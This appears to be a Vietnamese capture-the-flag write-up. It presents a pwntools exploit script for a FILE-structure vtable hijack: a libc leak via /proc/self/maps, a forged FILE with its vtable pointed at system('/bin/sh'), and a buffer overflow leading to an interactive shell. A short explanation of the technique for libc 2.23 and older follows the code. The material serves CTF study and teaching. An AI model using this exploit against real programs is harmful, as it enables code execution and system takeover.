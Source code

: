 ```python

def read():
    p.sendlineafter(b'choice :',b'2')

def write():
    p.sendlineafter(b'choice :',b'3')

open_(b'/proc/self/maps')
read()
read()
write()

p.recvuntil(b'[heap]')
p.recvline()
libc.address = int(b'0x' + p.recv(8),16)
log.info(f'leak: {hex(libc.address)}')
p.recvlines(2)


file = FileStructure()
file.flags = u32(b'/bin')           # th nay se la doi so khi goi system
file._IO_read_ptr = u32(b'/sh\x00')         # Add this line
file._lock = 0x804ba00
file.vtable = 0x804b284 - 0x44  # call [eax+0x44]  -> - 0x44
payload = flat(
    b'A'*0x20,
    0x804b290, libc.sym['system'], 0, 0,
    bytes(file)
    )
input()
p.sendlineafter(b'choice :', b'5')
p.sendlineafter(b'name :', payload)
p.interactive()
```


### ta sẽ cùng phân tích để hiểu sâu hơn : 

Khi chúng ta sử dụng fopen để mở một tệp, một vùng bộ nhớ sẽ được phân bổ trên heap để lưu trữ cấu trúc FILE . phần đầu sẽ là   ```_IO_FILE``` và phần sau là 1 con trỏ đến ```struct IO_jump_t``` , cấu trúc này lưu các con trỏ hàm liên quan đến IO_FILE  . Khi chúng ta gọi fclose để đóng một tập tin, cuối cùng chúng ta sẽ gọi con trỏ hàm được lưu trong vtable. Nếu chúng ta có thể thay thế con trỏ trong vtable bằng địa chỉ mà chúng ta muốn chuyển tới, chúng ta có thể chiếm quyền điều khiển luồng chương trình.

điều kiện : 


- Chỉ xem xét các trường hợp phiên bản libc <= 2.23. Bởi vì libc lớn hơn hoặc bằng 2,24 sẽ phán đoán vị trí của vtable và không thể làm cho nó trỏ tới khu vực do chính nó xây dựng.
- Bạn có thể kiểm soát vị trí được trỏ bởi con trỏ vtable hoặc con trỏ fp
- Có một vùng bộ nhớ có thể điều khiển được với địa chỉ đã biết, kích thước tùy thuộc vào tình huống
